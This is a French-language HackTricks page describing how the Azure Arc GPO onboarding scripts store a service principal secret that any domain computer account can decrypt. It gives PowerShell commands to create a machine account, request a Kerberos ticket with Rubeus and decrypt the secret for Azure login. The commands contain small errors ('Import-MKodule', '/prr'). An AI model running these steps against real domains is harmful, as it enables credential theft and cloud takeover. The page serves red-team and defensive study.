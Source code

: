 # Az - Arc script de déploiement GPO vulnérable

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supportez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

### Identification des problèmes

Azure Arc permet l'intégration de nouveaux serveurs internes (serveurs de domaine joints) dans Azure Arc en utilisant la méthode de l'objet de stratégie de groupe. Pour faciliter cela, Microsoft fournit un kit d'outils de déploiement nécessaire pour initier la procédure d'intégration. Dans le fichier ArcEnableServerGroupPolicy.zip, les scripts suivants peuvent être trouvés : DeployGPO.ps1, EnableAzureArc.ps1 et AzureArcDeployment.psm1.

Lors de son exécution, le script DeployGPO.ps1 effectue les actions suivantes :

1. Crée le GPO d'intégration des serveurs Azure Arc dans le domaine local.
2. Copie le script d'intégration EnableAzureArc.ps1 dans le partage réseau désigné créé pour le processus d'intégration, qui contient également le package d'installation Windows.

Lors de l'exécution de ce script, les administrateurs système doivent fournir deux paramètres principaux : **ServicePrincipalId** et **ServicePrincipalClientSecret**. De plus, il nécessite d'autres paramètres tels que le domaine, le FQDN du serveur hébergeant le partage et le nom du partage. D'autres détails tels que l'ID de locataire, le groupe de ressources et d'autres informations nécessaires doivent également être fournis au script.

Un secret chiffré est généré dans le répertoire AzureArcDeploy sur le partage spécifié en utilisant le chiffrement DPAPI-NG. Le secret chiffré est stocké dans un fichier nommé encryptedServicePrincipalSecret. Des preuves de cela peuvent être trouvées dans le script DeployGPO.ps1, où le chiffrement est effectué en appelant ProtectBase64 avec $descriptor et $ServicePrincipalSecret comme entrées. Le descripteur se compose des SID des groupes Domain Computer et Domain Controller, garantissant que le ServicePrincipalSecret ne peut être déchiffré que par les groupes de sécurité Domain Controllers et Domain Computers, comme noté dans les commentaires du script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Nous avons les conditions suivantes :

1. Nous avons réussi à pénétrer le réseau interne.
2. Nous avons la capacité de créer ou de prendre le contrôle d'un compte d'ordinateur au sein d'Active Directory.
3. Nous avons découvert un partage réseau contenant le répertoire AzureArcDeploy.

Il existe plusieurs méthodes pour obtenir un compte machine dans un environnement AD. L'une des plus courantes consiste à exploiter le quota de compte machine. Une autre méthode implique de compromettre un compte machine via des ACL vulnérables ou diverses autres mauvaises configurations.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Une fois qu'un compte machine est obtenu, il est possible de s'authentifier en utilisant ce compte. Nous pouvons soit utiliser la commande runas.exe avec le drapeau netonly, soit utiliser pass-the-ticket avec Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
En ayant le TGT pour notre compte d'ordinateur stocké en mémoire, nous pouvons utiliser le script suivant pour déchiffrer le secret du principal de service.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativement, nous pouvons utiliser [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

À ce stade, nous pouvons rassembler les informations restantes nécessaires pour se connecter à Azure à partir du fichier ArcInfo.json, qui est stocké sur le même partage réseau que le fichier encryptedServicePrincipalSecret. Ce fichier contient des détails tels que : TenantId, servicePrincipalClientId, ResourceGroup, et plus encore. Avec ces informations, nous pouvons utiliser Azure CLI pour nous authentifier en tant que service principal compromis.

## Références

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
